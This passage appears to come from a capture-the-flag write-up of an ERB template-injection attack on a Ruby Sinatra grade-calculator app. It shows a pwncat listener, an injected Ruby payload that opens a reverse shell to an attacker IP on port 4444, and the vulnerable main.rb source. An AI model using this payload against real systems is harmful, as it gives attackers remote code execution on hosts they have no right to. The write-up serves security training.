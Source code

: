 On attacker machine:

```bash
pwncat-cs -lp 4444
```

On BurpSuite (URL encoded):

{% code overflow="wrap" %}
```ruby
test 
<%= `/usr/bin/ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.15.101",4444))'` %>
```
{% endcode %}

and finally obtain a reverse shell as `susan`:

<figure><img src="../../.gitbook/assets/image (617).png" alt=""><figcaption></figcaption></figure>

{% code title="main.rb" overflow="wrap" %}
```ruby
require 'sinatra'
require 'erb'
set :show_exceptions, false

configure do
    set :bind, '127.0.0.1'
    set :port, '3000'
end

get '/' do
    index_page = ERB.new(File.read 'views/index.erb')
    response_html = index_page.result(binding)
    return response_html
end

get '/about' do
    about_page = ERB.new(File.read 'views/about.erb')
    about_html = about_page.result(binding)
    return about_html
end

get '/weighted-grade' do
    calculator_page = ERB.new(File.read 'views/weighted_grade.erb')
    calcpage_html = calculator_page.result(binding)
    return calcpage_html
end
```